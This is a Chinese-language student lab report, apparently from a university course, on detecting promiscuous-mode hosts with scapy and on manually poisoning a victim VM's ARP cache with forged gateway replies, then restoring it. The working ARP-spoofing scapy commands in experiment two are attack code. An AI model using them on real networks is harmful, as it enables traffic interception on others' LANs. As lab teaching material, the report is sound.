# 网络监听

### 实验环境搭建

- 网络拓扑

  

- 各主机结点信息

  - 攻击者主机
    - `08:00:27:bb:a1:1c`
    - `172.16.111.133`

  - 受害者主机
    - `08:00:27:3b:c4:f5`
    - `172.16.111.110`

  - 网关
    - `08:00:27:d5:7a:32`
    - `172.16.111.1`

### 实验准备

#### 安装 scapy

- 在攻击者主机上安装好 scapy

  ```bash
  # 安装 python3
  sudo apt update && sudo apt install python3 python3-pip
  
  # ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
  pip3 install scapy[complete]
  ```

  

  

### 实验一检测局域网中的异常终端

- 在受害者主机上检查网卡的 `混杂模式` 是否启用

  ```bash
  ip link show eth0
  ```

  

- 在攻击者主机上开启 scapy

  ```bash
  sudo scapy
  ```

  

- 为查看混杂模式主机而发送ARP请求

  ```python
  # 在 scapy 的交互式终端输入以下代码回车执行
  pkt = promiscping("172.16.111.110")
  ```

  

- 回到受害者主机上开启网卡的`混杂模式`

  ```bash
  # 注意上述输出结果里应该没有出现 PROMISC 字符串
  # 手动开启该网卡的「混杂模式」
  sudo ip link set eth0 promisc on
  ```

- 此时会发现输出结果里多出来了 `PROMISC`

  ```bash
  ip link show eth0
  ```

  

- 回到攻击者主机上的 scapy 交互式终端继续执行命令，观察两次命令的输出结果差异

  ```python
  pkt = promiscping("172.16.111.110")
  ```

  

  - 可以看到会显示受害者主机的 `ip地址` 和 `MAC地址`

- 在受害者主机上手动关闭该网卡的 `混杂模式`

  ```bash
  sudo ip link set eth0 promisc off
  ```

- 查阅资料，promiscping 命令会发送 `ARP who-has` 请求。

  > - 混杂模式 网卡能够接收所有经过它的数据流，而不论其目的地址是否是它
  > - 普通模式 网卡只接受发给自己地址的数据包


### 实验二：手工单步“毒化”目标主机的 ARP 缓存

- 获取当前局域网的网关 MAC 地址

  ```python
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  

- 发送这个 ARP 广播请求

  ```python
  recved = srp(arpbroadcast, timeout=2)
  ```

- 网关 MAC 地址如下

  ```python
  gw_mac = recved[0][0][1].hwsrc
  
  gw_mac
  ```

  

- 伪造网关的 ARP 响应包

  ```python
  # 准备发送给受害者主机 172.16.111.110
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1 ", pdst="172.16.111.110", hwdst="08:00:27:bb:a1:1c")
  
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```

  

- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

  ```bash
  ip neigh
  ```

  

- 恢复受害者主机的 ARP 缓存记录

  ```python
  # 伪装网关给受害者发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1 ",hwsrc="08:00:27:d5:7a:32", pdst="172.16.111.110", hwdst="08:00:27:3b:c4:f5")
  
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  

- 此时在受害者主机上准备“刷新”网关 ARP 记录

  ```bash
  ## 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  

### 参考资料

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)
